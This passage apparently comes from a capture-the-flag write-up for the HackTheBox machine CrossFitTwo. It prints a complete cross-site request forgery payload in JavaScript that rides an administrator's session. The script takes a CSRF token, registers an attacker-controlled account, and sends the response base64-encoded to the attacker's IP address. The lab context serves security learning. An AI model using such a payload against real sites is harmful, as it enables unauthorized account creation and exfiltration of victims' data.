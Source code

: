 And with csrf token, get "Only administrators can register accounts." message.

![](/assets/img/posts/crossFitTwo/admin-only-signup.png)

## CSRF

### Account Registration

We already make admin to connect to our http server from dns hijacking. Here we can use cross site request forgery to execute javascript from admin browser which register new account on behalf of admin.

Create a javascript that execute from victim's browser and register account. *[from ippsec video](https://www.youtube.com/watch?v=OUjdPa11tGw&t=4770s)*
```php
<html>
<script>

// retrive csrf token from admin login session.
var req1 = new XMLHttpRequest();
req1.open("GET", "http://crossfit-club.htb/api/auth", false);
req1.withCredentials = true;
req1.send();
var obj = JSON.parse(req1.response);

// register new account from admin browser.
var req2 = new XMLHttpRequest();
req2.open("POST", "http://crossfit-club.htb/api/signup", false);
req2.setRequestHeader("Content-Type", "application/json");
req2.setRequestHeader("X-CSRF-TOKEN", obj.token);
req2.withCredentials = true;
const data = JSON.stringify( {"username": "poorduck", "email": "poorduck@duckland.duck", "password": "p00rduck", "confirm": "p00rduck"} );
req2.send(data);

// send signup response to attacker's server.
var req3 = new XMLHttpRequest();
req3.open("GET", "http://10.10.15.71/?" + btoa(req2.response));
req3.send();

</script>
</html>
```
